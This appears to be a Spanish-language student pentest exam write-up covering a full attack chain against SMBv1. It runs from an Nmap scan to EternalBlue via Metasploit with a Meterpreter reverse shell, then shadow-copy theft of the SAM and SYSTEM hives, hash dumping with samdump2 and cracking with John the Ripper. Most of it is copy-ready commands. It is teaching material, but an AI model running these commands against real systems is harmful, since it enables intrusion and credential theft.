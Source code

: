 ```yaml
---
title: Examen Parcial
date: 2024-11-03 00:00:00 +05:00
categories: [reconnaisance, kill chain, pentesting]
tags: [Nmap, kali, metaxploid, SSH, vssown, handshake]  # TAG names should always be lowercase
---
```


# 2.1 Escaneo de Red y Enumeración de Servicios 
## Paso 1: Identificación de Puertos SMB
Los puertos a escanear son:

TCP 139: NetBIOS Session Service
TCP 445: SMB over TCP

## Paso 2: Comando Nmap
Ejecuta el siguiente comando en terminal de Kali Linux:

```bash
nmap -p 139,445 --script smb-protocols <10.0.2.4>
```

![figure](/assets/images/nmap2.jpeg)


## Paso 3: Análisis del Output
Al analizar la salida, busca líneas que indiquen la presencia de SMBv1, como:


```bash
| smb-protocols:
|   SMBv1:
|     NT LM 0.12
```
Esto confirmará que SMBv1 está habilitado.

## Análisis de los Resultados
- Puertos y Servicios Detectados:
139/tcp: netbios-ssn (abierto)
445/tcp: microsoft-ds (abierto)
- Resultados del Script smb-protocols:
SMBv1 está habilitado (indicado por NT LM 0.12).
Se señala que SMBv1 es peligroso y por defecto.

# 2.2 Exploración de la Vulnerabilidad
Identificación de Vulnerabilidad:
Después de realizar el escaneo, verifica si el servicio SMBv1 es vulnerable al exploit EternalBlue (CVE-2017-0144).

1. Usar Metasploit para Explorar SMB:

- Inicia Metasploit en Kali con el comando:
```bash
msconsole
```
![figure](/assets/images/msfconsole.png)

- Busco un exploit adecuado para SMBv1:
```bash
search ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```
![figure](/assets/images/metasss.png)

Explicación:

EternalBlue: Este módulo aprovecha una vulnerabilidad en SMBv1 que permite la ejecución remota de código. Se selecciona este módulo porque es conocido por su eficacia en sistemas que aún utilizan SMBv1.


# 2.3. Configuración del Exploit en el Framework Metasploit
Configuración:

```bash
set RHOST <IP_VICTIMA>
set LHOST <TU_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

![figure](/assets/images/exploid1.png)

Explicación de Parámetros:

- RHOST: Dirección IP de la máquina víctima. Es esencial para dirigir el exploit correctamente.
- LHOST: Dirección IP de tu máquina atacante, donde recibirás la conexión de retorno.
- PAYLOAD: Define el tipo de conexión que deseas establecer (en este caso, una shell reversa de Meterpreter).

# 2.4. Ejecución del Exploit
Ejecución:


```bash
exploit
```
![figure](/assets/images/55.png)

# 2.5. Exfiltración de Archivos SAM y SYSTEM

Infiltración del Script:
Sube el archivo vssown.vbs al sistema objetivo utilizando Meterpreter:

```bash
upload /ruta/local/vssown.vbs C:\Users\Public\vssown.vbs
```
Ejecutar el Script:

```bash
execute -f C:\Users\Public\vssown.vbs
```
Comandos para Crear Copia de Sombra:
Después de ejecutar el script, utiliza los siguientes comandos:

```bash
vss_list
```
Esto mostrará las copias de sombra disponibles.

Copiar Archivos SAM y SYSTEM:

```bash

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SAM C:\Users\Public\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\System32\config\SYSTEM C:\Users\Public\SYSTEM
```
Descargar Archivos:

```bash
download C:\Users\Public\SAM /ruta/local/SAM
download C:\Users\Public\SYSTEM /ruta/local/SYSTEM
```

# 2.6. Análisis de los Archivos Exfiltrados
Extracción de Hashes:
Una vez que tengas los archivos SAM y SYSTEM en tu máquina Kali, utiliza samdump2:

```bash
samdump2 SYSTEM SAM > hashes.txt
```
Descifrado de Hashes:
Para intentar descifrar los hashes, usa herramientas como John the Ripper:

```bash

john hashes.txt
```

# 2.7. Requisitos de Documentación
Documentación:

Se realizo capturas de pantalla Captura pantallas de cada paso clave.
Se explica los resultados de cada paso

